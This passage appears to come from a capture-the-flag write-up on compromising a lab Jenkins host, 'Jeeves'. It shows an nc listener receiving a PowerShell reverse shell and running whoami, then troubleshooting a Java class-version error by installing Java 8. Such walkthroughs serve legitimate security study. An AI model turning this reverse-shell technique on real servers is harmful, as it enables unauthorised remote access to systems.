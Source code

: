 Shortly after that, I get a connection on `nc`, and I have a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.63.
    Ncat: Connection from 10.10.10.63:49680.
    Windows PowerShell running as user kohsuke on JEEVES
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Users\Administrator\.jenkins>whoami
    jeeves\kohsuke



## Troubleshooting

### Java Version

The first time I tried this, after Jenkins downloaded my jar file, I got
the following error message in the web browser:

![](/img/1551288616020.png)

> java.lang.UnsupportedClassVersionError: Orange has been compiled by a
> more recent version of the Java Runtime (class file version 55.0),
> this version of the Java Runtime only recognizes class file versions
> up to 52.0

Basically, I compiled the class file using a later version of java, and
it can't understand it.

According to [the Wikipedia page on Java Class
Files](https://en.wikipedia.org/wiki/Java_class_file#General_layout),
version 55 is Java SE 11, and 52 is Java SE 8.

I installed Java 8 on my computer with



    root@kali# apt install openjdk-8-jdk



Then I used `update-alternatives` to select the right version for now:



    root@kali# update-alternatives --config javac
    There are 4 choices for the alternative javac (providing /usr/bin/javac).

      Selection    Path                                          Priority   Status
    ------------------------------------------------------------
      0            /usr/lib/jvm/java-11-openjdk-amd64/bin/javac   1111      auto mode
    * 1            /opt/jdk-11.0.2/bin/javac                      1         manual mode
      2            /usr/lib/jvm/java-10-openjdk-amd64/bin/javac   1101      manual mode
      3            /usr/lib/jvm/java-11-openjdk-amd64/bin/javac   1111      manual mode
      4            /usr/lib/jvm/java-8-openjdk-amd64/bin/javac    1081      manual mode
